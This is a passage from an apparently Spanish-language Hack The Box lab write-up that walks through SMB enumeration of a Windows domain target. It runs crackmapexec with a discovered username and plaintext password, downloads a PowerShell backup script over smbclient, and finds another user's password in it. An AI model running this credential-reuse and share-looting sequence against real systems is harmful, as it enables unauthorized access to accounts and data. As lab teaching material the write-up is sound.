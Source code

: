## SMB Enumeration

Con **crackmapexec** probaremos de comprobar si el usuario que hemos encontrado "david.orelious" dispone de acceso algún recurso compartido de SMB. En este caso, comprobamos que disponemos de acceso al recurso "DEV" que parece ser algún recurso de desarrollador o algo parecido.

```bash
crackmapexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```

<figure><img src="../../../.gitbook/assets/594_vmware_8gsC7Zmgjo.png" alt=""><figcaption></figcaption></figure>

Probaremos de acceder con **smbclient** con las credenciales encontradas, comprobaremos que en el recurso hay un script .ps1 el cual procederemos a descargar en nuestro equipo local.

```bash
smbclient //10.10.11.35/DEV -U cicada.htb/david.orelious
ls
get Backup_script.ps1
quit
```

<figure><img src="../../../.gitbook/assets/595_vmware_Ql5oYY6L0T.png" alt=""><figcaption></figcaption></figure>

Procederemos a comprobar el contenido del script .ps1 encontrado, y nos damos cuenta que para el usuario "_emily.oscars_" se encuentra su contraseña en texto plano.

```bash
catnp Backup_script.ps1
```
